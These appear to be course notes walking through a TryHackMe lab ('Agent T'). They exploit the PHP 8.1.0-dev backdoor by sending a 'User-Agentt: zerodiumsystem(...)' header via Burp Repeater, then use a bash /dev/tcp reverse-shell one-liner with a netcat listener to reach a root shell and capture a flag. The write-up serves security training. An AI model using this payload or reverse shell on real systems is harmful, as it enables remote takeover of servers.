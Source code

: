 #WAPT #penetration-testing

### Overview
- Example : let's say u're a agent as name "Agent T" & u got a task to test a webapp/website & everything is going well & u say that everything is working fine but u got a little vulnerability/issue. so the process from that little issue to `Remote Code Execution` , we'll see & we'll play as "Agent T" ✔
### what we'll learn
- process from the little issue/vulnerability to `Remote Code Execution`

---
### Topics - Explanation

- Reference : tryhackme.com/room/agentt

- <u>Define : Remote code Execution</u> : 
	- means any website or webapp is running on that system , access of that system can get to the attacker remotely & then that attacker can run the commands on victim's shell & this is dangerous vulnerability cuz remotely that server or system can be controlled ✔
	- so if this version of PHP i.e `8.1.0-dev` runs on a server an attacker can execute arbitrary code by sending the `User-Agentt header` means kinda we can open sudo shell ✔
	- so due to this issue , attacker can create impact/penetrate in large amount ✔

1) <u>Process from the little issue/vulnerability to `Remote Code Execution`</u>
	- STEP 1: go to this room & start the machine & copy the IP address as `10.10.49.29` 
	- STEP 2: in Kali Linux , already builtin VPN i.e openVPN , so start the VPN , so in terminal - `cd downloads` command then `openvpn EthicalSharmaji.ovpn`
	- STEP 3: in firefox , open that IP addresss & then once the webapp gets open then in message box , click on any message to check whether anything happen or not , so we clicked & nothing happen except we're getting hashtag in URL ✔
	- STEP 4: in terminal , start burpsuite as command `burpsuite` then off the intercept
		- STEP 4.1: in burpSuite , project Options > misc , check the box of `Allow Burp's browser to run without a sandbox` - means to run the burpSuite in sandbox & we can start the browser ✔
		- STEP 4.2: copy that IP address & open it inside burpsuite browser 
		- cuz mostly webapps comes Anuj Sir open them inside BurpSuite Browser , so that he can see/visibility of packets about what requests goes & what responses came in ✔
	- STEP 5: so in that webapp , when we click on anything then nothing will happen means URL just getting hashtag but once we come & click on "404 page"
		- output : of before clicking on other pages ![[WAPT-lecture-15-0.jpg]]
		- Output : of after clicked on 404 page ![[WAPT-lecture-15-1.jpg]]
		- here webapp name gets changed & "admin" profile name converted into something
		- so here `404 page` menu link has a problem & u can check others stuff to know whether any issues coming or not , if not coming then might be there is a issue in `404 page` ✔
	- STEP 6: in burpSuite , let's check the security error , so Target > Site Map , select that IP address folder & check any request of it 
		- checking a request & it's response ![[WAPT-lecture-15-2.jpg]]
		- & further u check inside Response then u'll not get anything
		- but here `x-powered by` is not seems good , so select `PHP/8.1.0-dev` & right click & copy it
		- STEP 6.1: in firefox , paste it & write this `PHP 8.1.0-dev exploits` & search it & this a method that if u get anything like version or server version or technology version then always search of exploits related to that version in order to know whether that vulnerability is big or small ✅
		- STEP 6.2: open these starting sites ![[WAPT-lecture-15-3.jpg]]
		- STEP 6.3: in 1st link , `PHP 8.1.0-dev` version is vulnerable for Remote Code Execution
		- STEP 6.4: in 2nd link `https://exploit-db.com/exploits/49933` , understanding what this exploit doing of this php version , so it's a python exploit ![[WAPT-lecture-15-4.jpg]]
		- so here the code `"User-Agentt : zerodiumsystem('" + cmd + "');"` means if we give User-Agentt & command with zerodiumsystem (here cmd - means could be any command) then the complete thing will execute the command  ✔
	- STEP 7: in BurpSuite , target > site map
		- inside the IP address folder ![[WAPT-lecture-15-2.jpg]]
		- STEP 7.1: right click on `Request` section & `send to repeater` 
		- STEP 7.2: in repeater tab , delete the value of `User-Agent` & change the key name as `User-Agentt` & expected value of the key should be `"zerodiumSystem('" + cmd + "')"` , so change the value of the key , so that burpsuite can understand
		- STEP 7.3: let's give the cmd as `hostname` cuz generally , PHP page application runs on Linux server & `hostname` is a linux command to check hostname✔
		- STEP 7.4: so in repeater tab , ultimately write this `User-Agentt` : `zerodiumsystem('hostname');` & click on `send` button ![[WAPT-lecture-15-5.jpg]]
		- so we got 200 Ok & hostname is 3FA6... which means `hostname` command is working , if u check `whoami` command then again we'll get output ![[WAPT-lecture-15-6.jpg]]
		- which means remotely we can run command on the linux server of that IP address. so whatever commands we're running , that command interacting with shell 
	- STEP 8: now our main goal to get the shell or flag , so for this , we have a extension [HackTools – Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) or u can google i.e "how to get the one liner reverse shell command of bash"
		- STEP 8.1: in that firefox extension , select bash icon & paste the IP address , u'll get the bash command , copy the command ![[WAPT-lecture-15-7.jpg]]
		- STEP 8.2: in terminal , run the command of netcat i.e `nc -lvnp 443` , so running netcat on port 443 cuz once that shell command we run then after execution of that command , shell will get ON ✔
		- STEP 8.3: paste that one liner command i.e `User-Agentt` : `zerodiumsystem('bash -c 'exec bash -1 &>/dev/tcp/10.17.41.167/443 <&1'');` like this ![[WAPT-lecture-15-8.jpg]]
		- STEP 8.4: click on `send` button & in terminal , we got the shell i.e ![[WAPT-lecture-15-9.jpg]]
		- STEP 8.5: write whoami to check whether folder is `root` or not like this `root@3f8655e43931:/var/www/html# whoami` , so we'll get root ✔![[WAPT-lecture-15-10.jpg]]
		- STEP 8.6: to find the flag , go to `cd/root` & run `ls`  -> then still not got , again run `ls -la` (`la` means might be the file in hidden form)
		- STEP 8.7: let's go out of "root" directory i.e `cd ..` & check path i.e `pwd` command , so we'll get `/` (which means we're in a starting directory of root where all the files & folder , including root folder also) & run `ls -la`
		- STEP 8.8: all commands which we used from STEP 8.5 till STEP 8.7 ![[WAPT-lecture-15-11.jpg]]
		- STEP 8.9: so we'll get flag.txt file , so run `cat flag.txt` & the value will come submit on `tryhackme.com/room/agentt`
### Summary : of process of RemoteCodeExecution ✔
- STEP 1) we got the finding where server or technology version is exposed
- STEP 2) via that technology version , we find out the exploits
- STEP 3) we got the exploit of Remote Code Execution & then we try to understood
- STEP 4) then we try to execute the command , so commands are executing
- STEP 5) whatever the commands are running , so via those commands how we can obtain/get the shell cuz attacker will also try to do the same

